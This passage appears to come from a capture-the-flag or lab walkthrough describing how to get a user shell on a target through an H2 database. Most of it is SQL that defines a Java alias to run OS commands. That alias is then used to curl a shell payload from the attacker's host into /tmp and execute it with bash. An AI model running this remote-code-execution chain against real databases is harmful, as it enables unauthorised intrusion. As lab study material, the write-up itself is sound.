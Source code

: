 
<figure><img src="../../../.gitbook/assets/image (152).png" alt=""><figcaption><p>I got a hit back from the server.</p></figcaption></figure>

Let's download a shell from our system and get user shell.

## User shell

<figure><img src="../../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

1. command to download:

```sql
CREATE ALIAS SHELLEXECa AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXECa('curl <ip>:<port>/shell -o /tmp/shell')
```

1. execute our downloaded binary

```sql
CREATE ALIAS SHELLEXECab AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXECab('bash /tmp/shell')
```

<figure><img src="../../../.gitbook/assets/image (154).png" alt=""><figcaption><p>DONE!!</p></figcaption></figure>
